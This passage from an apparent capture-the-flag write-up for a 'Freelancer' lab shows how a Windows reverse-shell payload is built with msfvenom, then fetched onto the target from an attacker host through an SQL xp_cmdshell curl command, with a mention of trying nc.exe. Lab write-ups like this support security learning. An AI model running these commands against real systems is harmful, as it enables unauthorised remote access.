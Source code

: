 <br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106204707.png" alt="1" style="width:700px; height:auto;">
<br/>

We can make a `reverse shell` using `powershell` but it did not work so we can make a reverse shell using `msfvenom`.   

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106205408.png" alt="1" style="width:700px; height:auto;">
<br/>

Now upload it on the server.  

```sql
EXEC xp_cmdshell 'curl http://10.10.16.5:8000/shell-x64.exe -o "C:\users\public\shell.exe"';
```

No answer still so we may use `nc.exe` to execute the reverse shell.  

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106215230.png" alt="1" style="width:700px; height:auto;">
<br/>
